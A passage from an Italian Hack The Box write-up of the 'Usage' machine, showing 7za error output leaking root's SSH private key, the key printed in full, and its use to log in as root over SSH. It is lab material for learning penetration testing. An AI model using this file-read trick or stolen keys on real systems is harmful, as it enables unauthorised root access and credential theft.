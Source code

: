 ```
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q : No more files
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs : No more files
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM= : No more files
-----END OPENSSH PRIVATE KEY----- : No more files
----------------
Scan WARNINGS: 7
```

Quello che succede è che poiché il contenuto di `/root/.ssh/id_rsa` non è una lista di file, `7za` genera un errore. Ma nel processo di generazione dell'errore, mostra il contenuto del file che ha letto, rivelandolo.

Non ci resta che copiarlo, dargli i permessi d' esecuzione e collegarci in ssh 

```bash
┌──(kali㉿kali)-[~/htb/usage]
└─$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM=
-----END OPENSSH PRIVATE KEY-----
┌──(kali㉿kali)-[~/htb/usage]
└─$ chmod 600 id_rsa

┌──(kali㉿kali)-[~/htb/usage]
└─$ ssh root@10.10.11.18 -i id_rsa
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Fri Jul 19 03:28:00 PM UTC 2024

  System load:           0.0
  Usage of /:            67.7% of 6.53GB
  Memory usage:          40%
  Swap usage:            0%
  Processes:             239
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.18
  IPv6 address for eth0: dead:beef::250:56ff:fe94:e2c0


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Jul 17 21:58:45 2024 from 10.10.14.49
root@usage:~
```
